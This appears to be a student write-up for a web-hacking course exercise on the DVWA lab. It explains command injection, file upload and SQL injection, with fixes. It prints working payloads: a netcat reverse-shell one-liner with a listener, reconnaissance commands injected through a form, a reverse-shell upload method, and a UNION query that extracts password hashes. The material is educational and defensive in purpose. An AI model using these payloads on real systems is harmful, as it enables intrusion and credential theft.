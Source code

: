 # Web-Hack

## [Subject](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/web-hack)

## [Audit](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/web-hack/audit)

## [Video▶️](https://youtu.be/PScAwe4ON5A)

## Table Of Contents

- [Vulnerabilities](#vulnerabilities)
  - [1. Command line injection](#1-command-line-injection)
  - [2. File upload](#2-file-upload)
  - [3. SQL injection](#3-sql-injection)
- [Author](#author)

### 1. Command line injection

**Explanation:**

Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection is possible when the application passes user-submitted data to a system shell.
DVWA site has a form field that asks for an IP address. It runs a ping command with given IP and returns the result.

**Usage:**

By using `&&` operator or a semicolon `;` we can run any command after the IP address.

Example:

```sh
127.0.0.1; whoami; hostname; ifconfig
```

Examle of getting reverse shell access through command injection:

Set your mashine to listen to a port:

```sh
nc -lvnp 1337
```

Submit this via form field:

```sh
127.0.0.1 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
```

With this we have shell access

**Fix:**

Only allow very stricted input that has to match a pattern and can only produce a certain result. Use white listing to only allow certain values to be entered.

### 2. File upload

**Explanation:**

File upload vulnerability is a security flaw that occurs when a web application allows users to upload files without proper validation or security controls.
Uploaded files represent a significant risk to applications. Alot of attacks begin by uploading some malicious file to the system. After file is uploaded the attacker just has to find a way to execute it, and the system is comprimised.

**Usage:**

If there are no limitations at all what user can upload just upload a for example a reverse shell script and execute it to gain shell access.
If Only file type is limited, you can use a proxy and some repeater software where you can send the upload request manually to the server and change the file type in the header

Example:

1. Upload shell sctipt file where you have set your ip and a port for listening
2. listen to the port with netcat:

```sh
nc -lvnp 1337
```

3. Go to file directory on the web application and execute the script.
4. Open the console you had set to listen to your chosen port and it should have a connection to the web applications system shell.

**Fix:**

Check the reported file type from the client when it's being uploaded. When image is received from client server should try to resize it to make sure we're dealing with an image. Finally to have the best possible security the server should re-encode the image to strip away anything that could be hinden in the image file.

### 3. SQL injection

**Explanation:**

SQL injection is a type of cyberattack where malicious SQL code is inserted into input fields of a web application, exploiting vulnerabilities in the application's database layer. This can lead to unauthorized access to sensitive data, manipulation of database content, and potentially complete control over the application and underlying server.

**Usage:**

Example - getting user password hashes from the db using UNION attack method:

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query.

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

In this case we know that the original query returns 2 columns so we can just attach another query with 2 colmuns and get the password hashes of the users.

```sql
' UNION SELECT user, password FROM users#
```

With the single quote `'` symbol is used to "break out" of the `id` parameter in the query, thus allowing us to continue the query.
The `#` symbol is used to comment out the rest of the original query following the injection point.

From here there are several tools and methods to crack the hashes and get the passwords of the users.

**Fix:**

**Validate** and **sanitize** user **input** to ensure that only expected data formats are accepted.

Utilize **parameterized queries** or **prepared statements**, these methods allow input values to be treated as data rather than executable code, preventing SQL injection attacks.

## Author

[laurilaretei](https://01.kood.tech/git/laurilaretei)
